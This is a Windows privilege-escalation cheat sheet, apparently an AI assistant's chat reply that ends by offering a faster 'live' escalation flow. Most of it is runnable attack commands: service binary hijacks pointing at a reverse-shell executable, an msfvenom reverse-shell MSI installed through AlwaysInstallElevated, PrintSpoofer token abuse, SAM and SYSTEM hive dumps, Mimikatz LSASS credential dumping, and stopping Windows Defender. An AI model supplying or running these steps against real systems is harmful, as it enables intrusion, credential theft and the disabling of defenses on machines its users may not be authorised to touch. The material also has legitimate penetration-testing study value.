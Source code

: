 ### 1. **Basic Enumeration**

```powershell
whoami /priv
whoami /groups
whoami /all
systeminfo
hostname
echo %USERNAME%
echo %USERDOMAIN%
echo %PROCESSOR_ARCHITECTURE%
```

```powershell
# List hotfixes
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Installed programs
wmic product get name,version
```

---

### 2. **Check for Unquoted Service Paths**

```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
sc qc <servicename>
```

Exploit: Place malicious `.exe` in writable path before the space.

---

### 3. **Weak Service Permissions**

```powershell
accesschk64.exe -uwcqv "Authenticated Users" *
accesschk64.exe -uwcqv "Everyone" *
accesschk64.exe -uwcqv "Users" *
```

Exploit: Replace binary or change service config.

```powershell
sc config <service> binPath= "C:\path\to\rev.exe"
sc stop <service>
sc start <service>
```

---

### 4. **AlwaysInstallElevated (MSI abuse)**

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both = `1`, exploit:

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi > evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

---

### 5. **Registry AutoRun / Autorun Hijacks**

```powershell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Writable keys = persistence + priv escalation.

---

### 6. **Scheduled Tasks**

```powershell
schtasks /query /fo LIST /v
icacls "C:\path\to\task.exe"
```

If writable, replace binary.

---

### 7. **DLL Hijacking**

- Search for services/apps loading DLLs from writable paths:
    

```powershell
procmon.exe   # (filter by PATH NOT FOUND for .dll)
```

- Place malicious DLL.
    

---

### 8. **Hotfix / Kernel Exploits**

Check system info → Google or use **Windows Exploit Suggester**:

```powershell
systeminfo > sysinfo.txt
python windows-exploit-suggester.py --database 2025-08-20-mssb.xls --systeminfo sysinfo.txt
```

---

### 9. **Token Impersonation / SeImpersonatePrivilege**

```powershell
whoami /priv
```

If `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled → juicy.  
Exploit with **PrintSpoofer**:

```powershell
PrintSpoofer64.exe -i -c cmd.exe
```

---

### 10. **Password Hunting**

```powershell
# Registry SAM & SYSTEM
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

# Search for passwords
findstr /si password *.txt *.ini *.xml *.config
```

Common places:

- Unattend.xml (`C:\Windows\Panther\`)
    
- Group Policy Preference files (`c:\ProgramData\Microsoft\Group Policy\History\`)
    
- Mimikatz dump creds from LSASS:
    

```powershell
mimikatz.exe
sekurlsa::logonpasswords
```

---

### 11. **Insecure Services (SYSTEM running user programs)**

```powershell
tasklist /svc
netstat -ano
```

Look for apps running as SYSTEM but writable by user.

---

### 12. **AV & Defender Evasion**

Disable temporarily if perms allow:

```powershell
sc stop WinDefend
```

---

## **Key Tools**

- `winPEAS.exe` → full enumeration
    
- `Seatbelt.exe` → system survey
    
- `Accesschk.exe` → permissions
    
- `Mimikatz` → creds dump
    
- `PrintSpoofer` / `JuicyPotato` / `RoguePotato` → token abuse
    
- `Sherlock.ps1` / `Watson.exe` → vuln checks
    

---

That’s the go-to cheat menu. In practice, you just drop `winPEAS.exe`, run it, and then pivot to the quickest available vuln (service misconfig, token privs, or AlwaysInstallElevated).

Do you want me to condense this into a **step-by-step escalation flow** (like a decision tree: check this → if vuln → exploit, else next)? That’s usually the fastest way to run Windows privesc live.